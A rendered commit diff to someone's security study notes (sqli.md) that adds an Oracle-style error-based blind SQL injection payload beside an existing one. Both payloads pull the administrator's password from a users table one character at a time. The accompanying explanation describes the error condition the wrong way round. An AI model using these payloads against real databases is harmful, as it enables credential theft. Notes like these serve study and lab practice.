

Before and after one commit to B310M0R/notes, a Markdown page: sqli.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
blind sqli

````diff
--- a/sqli.md
+++ b/sqli.md
@@ -143,6 +143,7 @@ xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a          # we force D
 ```
 ```
 xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
+xyz' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a') THEN TO_CHAR(1/0) ELSE 'Z' END FROM dual) = 'Z
 ```
 In such case if 1 character of password is more then 'm', nothing happens. But if it's smaller, we force DB to 1/0, which throws an error
 For different DBs:
````
